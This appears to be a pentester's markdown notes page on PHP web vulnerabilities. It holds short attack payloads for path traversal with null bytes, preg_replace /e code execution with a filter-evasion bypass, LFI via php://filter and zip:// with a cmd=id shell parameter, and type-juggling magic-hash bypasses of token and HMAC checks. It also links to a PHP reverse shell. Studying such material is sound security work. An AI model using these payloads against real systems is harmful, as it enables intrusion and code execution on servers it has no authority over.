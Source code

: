 # PHP

## Cheatsheets

- <https://www.logicbig.com/tutorials/misc/php/php-advance-cheat-sheet.html>
- <http://overapi.com/php>
- <https://courses.cs.washington.edu/courses/cse154/18au/resources/cheatsheets/php-cheatsheet.pdf>

## References

- [Understanding PHP Object Injection](https://securitycafe.ro/2015/01/05/understanding-php-object-injection/)
- <https://eev.ee/blog/2012/04/09/php-a-fractal-of-bad-design/>
- <https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/>
- <http://pentestmonkey.net/tools/web-shells/php-reverse-shell>
- [PHP Remote File Inclusion command shell using data://](https://www.idontplaydarts.com/2011/03/php-remote-file-inclusion-command-shell-using-data-stream/)
- [Hardening and securing PHP on Linux](https://www.idontplaydarts.com/2011/02/hardening-and-securing-php-on-linux/)

- [HTTP Parameter Pollution with cookies in PHP](https://www.idontplaydarts.com/2013/06/http-parameter-pollution-with-cookies-in-php/)

## Terminate strings using null byte

Before `PHP 5.3` terminate strings using null byte is possible (%00 in URL)

```
http://example.com?param=../../../../etc/passed
  -> /etc/passed.php
http://example.com?param=../../../../etc/passed%00
  -> /etc/passed
```

## Vulnerable functions

Local / Remote file inclusion bugs:

```
include()
include_once()
require()
require_once()
```

Local / Remote command execution bugs:

```
eval()
preg_replace()
fwrite()
passthru()
file_get_contents()
shell_exec()
system()
```

SQL Injection bugs:

```
mysql_query()
```

File / File system bugs:

```
fopen()
readfile()
glob()
file()
popen()
exec()
```

> <https://0xzoidberg.wordpress.com/2010/05/26/vulnerable-php-functions/>

## RCE with PREG Functions

- implement regular expressions for the preg_ functions (preg_match, preg_replace)
- `/e` modifier which allows evaluation of PHP code in the preg_replace

Example:

```
<?php
$string = "this is my lower sting";
print preg_replace('/(.*)/e', 'strtoupper("\\1")', '$string');
?>

// THIS IS MY LOWER STING
```

Example Attack:

```
<?php
$string = "phpinfo()";
print preg_replace('/^(.*)/e', 'strtoupper(\\1)', $string);
?>
```

Filter Evasion:

- Prevent single quote and escape chars

```
Following will fail: $string = "system('ls -lah')";

Bypass: $string = "`ls -lah`";
```

> - Ref: <http://www.madirish.net/402>

## LFI with Filter Inclusion

- Useful when LFI is possible but ".php" is appended at end (and not vulnerable to null byte injection)
- `filter/convert.base64-encode` forces PHP to base64 encode the file before it is used in the require statement (`index​.php`) <http://example.com/?page=php://filter/convert.base64-encode/resource=index​>

## LFI with Zip Inclusion (Include a file inside a zip)

- If it is possible to upload a zip file <http://example.com/?page=zip://uploads/zipfilename#shell.php?cmd=id>

## LFI to RFI

- Possible if `allow_url_include` is on

## Type Juggling

References:

- <https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf>
- <https://www.netsparker.com/blog/web-security/php-type-juggling-vulnerabilities/>
- <https://0xdf.gitlab.io/2018/06/23/htb-falafel.html#php-type-juggling-intro>
- <https://pen-testing.sans.org/blog/2014/12/18/php-weak-typing-woes-with-some-pontification-about-code-and-pen-testing>
- <https://hydrasky.com/network-security/php-string-comparison-vulnerabilities/>
  
![1558284487209](_assets/PHP_loose_comparisons.png)

![](_assets/table_representing_behavior_of_PHP_with_loose_type_comparisons.png)

```

'0e1234' == '0e4321'
'0e1234' == '0'
'0e1234' <= '1'
'0xf' == '15' #0xf in hexadecimal notation is 15
```

```

'000...000' == int(0)
'0e0...000' == int(0)
'1e0...000' == int(1)
'0abc...000' == int(0)
'abc...000' == int(0) # if a string starts with a non numerical character it will default to int(0)
```

```

var_dump("2 bottles" == 2); // ==> TRUE

$values = array("apple","orange","pear","grape"); in_array(0, $values); // ==> TRUE

if($password == "secretpass") // ==> TRUE when $password=0
```

Example:
```php
<php
  $token = "0e124656823434657657655654324342";
  if(isset($_COOKIE['token']) && $_COOKIE['token'] == $token) {
    // access to privilege area
  }
  else {
    // login require
  }
?>

$COOKIE[‘token’] == $token (‘0e124656823434657657655654324342’ == ‘0’) will return TRUE
$COOKIE[‘token’] != $token (‘0e124656823434657657655654324342’ != ‘0’) will return FALSE
```

### Reduction in Entropy (Insecure HMAC)

```

$secret = 'secure_random_secret_value'; $hmac = md5($secret . $_POST['message']); if($hmac == $_POST['hmac'])<br>
// ===> Bypass by creating a hmac starting with `0e[0-9]` // var_dump("0e123" == "0e51217526859264863"); ===> TRUE shell_exec($_POST['message']);
```

### Hashing Algorithm Disclosure

Given 240610708 and QNKCDZO attacker can guess that hashing algo is `md5`

```

var_dump(md5('240610708') == md5('QNKCDZO')); ===> TRUE
```
